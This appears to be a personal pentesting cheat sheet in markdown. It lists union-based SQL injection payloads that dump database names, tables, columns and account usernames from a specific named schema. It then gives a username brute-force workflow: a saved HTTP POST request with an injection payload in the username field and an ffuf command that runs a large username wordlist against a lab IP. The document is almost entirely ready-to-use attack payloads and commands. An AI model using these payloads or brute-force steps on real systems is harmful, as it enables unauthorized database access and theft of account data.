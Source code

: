
### UNION BASED SQLI
info gathering 
```
1'union select 1,2,3,databases(),user(),version(),7 -- -
```

tables name dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'host1244535_siska'),version(),7 -- - 
```

column dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

table data dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(username) from host1244535_siska.accounts ),version(),7 -- -
```
or
```
'union select 1,2,3,4,(SELECT username from host1244535_siska.accounts ),version(),7 -- -
```

ref:-
https://www.hackingloops.com/sql-injection-union-based-exploitation-part-2-the-injection/
https://book.hacktricks.xyz/pentesting-web/sql-injection



### Username Brutforce with FFUF

simple request
![Alt text](image.png)

save  req to req.txt
```
POST / HTTP/1.1
Host: 10.10.128.5
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.128.5
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.128.5/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=FUZZ'AND+1=1+--+-&password=a
```

run below FFUF command
```
ffuf -request req.txt -u http://10.10.128.5/ -w ~/Tools/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
```
![[Pasted image 20230903233728.png]]
NOTE:- we might need to pass -u with url to use http or https